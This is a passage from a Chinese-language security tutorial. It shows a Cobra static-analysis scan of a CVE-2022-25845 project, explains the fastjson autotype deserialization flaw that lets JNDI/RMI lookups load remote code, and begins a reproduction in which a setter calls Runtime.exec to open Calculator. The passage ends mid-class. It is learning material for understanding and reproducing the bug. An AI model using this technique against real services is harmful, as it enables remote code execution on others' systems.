 **说明：** 扫描代码中出现的 `YYYY` 单词，并且在当前行的上方文件中查 `SimpleDateFormat` 单词，匹配上了则说明存在问题。   
执行：   
```bash
 # 指定规则进行扫描 
 python cobra.py -t ~/learn/CVE-2022-25845 -r cvi-400001
```   
结果：   
![Alt text](image-26.png)   
# 三、复现 fastjson 漏洞。
## 1. fastjson 漏洞原理介绍
fastjson为了读取并判断传入的值是什么类型，增加了autotype机制导致了漏洞产生。
由于要获取json数据详细类型，每次都需要读取@type，而@type可以指定反序列化任意类调用其set，get，is方法，并且由于反序列化的特性，我们可以通过目标类的set方法自由的设置类的属性值。
那么攻击者只要准备rmi服务和web服务，将rmi绝对路径注入到lookup方法中，受害者JNDI接口会指向攻击者控制rmi服务器，JNDI接口从攻击者控制的web服务器远程加载恶意代码并执行，形成RCE。
## 2. 复现
添加依赖。
```xml
 <dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
 </dependencies>
```
编写恶意代码，在setAge方法中注入恶意代码。
```java
 public class User {
    private String name;
    private int age;

    public void setAge(int age){
        this.age = age;
        try {
            Runtime.getRuntime().exec(new String[]{"open", "/System/Applications/Calculator.app"});
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public void setName(String name){
        this.name = name;
    }

    public String getName(){
        return this.name;
    }
    public int getAge(){
        return this.age;
```